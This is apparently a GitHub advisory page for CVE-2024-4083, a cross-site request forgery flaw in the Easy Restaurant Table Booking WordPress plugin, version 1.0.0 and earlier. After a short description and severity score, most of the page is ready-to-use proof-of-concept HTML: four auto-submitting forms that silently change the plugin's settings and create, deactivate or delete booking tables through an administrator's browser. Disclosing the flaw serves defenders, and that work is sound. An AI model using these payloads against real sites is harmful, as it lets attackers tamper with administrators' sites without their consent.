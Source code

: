 ```yaml
---
layout: page
title: CVE-2024-4083
subtitle: Easy Restaurant Table Booking <= 1.0.0 - Cross-Site Request Forgery
---
```

## Description
The Easy Restaurant Table Booking plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 1.0.0. This is due to missing or incorrect nonce validation when saving settings. This makes it possible for unauthenticated attackers to change the plugin's settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium)  - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.0

## PoC :
```
<html>
  <!-- eneriiiiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=tbl-settings" method="POST">
      <input type="hidden" name="savesetting" value="1" />
      <input type="hidden" name="hours" value="09" />
      <input type="hidden" name="mintus" value="30" />
      <input type="hidden" name="ampm" value="am" />
      <input type="hidden" name="hours1" value="09" />
      <input type="hidden" name="mintus1" value="30" />
      <input type="hidden" name="ampm1" value="pm" />
      <input type="hidden" name="time&#95;intval" value="30" />
      <input type="hidden" name="auto&#95;confirm" value="on" />
      <input type="hidden" name="success&#95;msg" value="eneri" />
      <input type="hidden" name="date&#95;format" value="" />
      <input type="hidden" name="confirm&#95;subject" value="eneri" />
      <input type="hidden" name="confirm&#95;msg" value="eneri" />
      <input type="hidden" name="rejected&#95;sub" value="eneri" />
      <input type="hidden" name="rejected&#95;msg" value="eneri" />
      <input type="hidden" name="savesettings" value="Save&#32;Changes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on Create table
<html>
  <!-- eneriiiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php?page=tbl-addtable" method="POST">
      <input type="hidden" name="action" value="newtable" />
      <input type="hidden" name="vc&#95;name" value="eneriiiiiiiiiiiiii" />
      <input type="hidden" name="capacity" value="666" />
      <input type="hidden" name="is&#95;active" value="1" />
      <input type="hidden" name="createtable" value="Add&#32;Table" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on Deactive table

<html>
  <!-- eneriiii<3 -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="tbl&#45;list" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="st" value="0" />
      <input type="hidden" name="t" value="edit" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

- CSRF on delete table

<html>
  <!-- eneriiii -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin.php">
      <input type="hidden" name="page" value="tbl&#45;list" />
      <input type="hidden" name="id" value="1" />
      <input type="hidden" name="t" value="del" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/easy-table-booking/easy-restaurant-table-booking-100-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4083


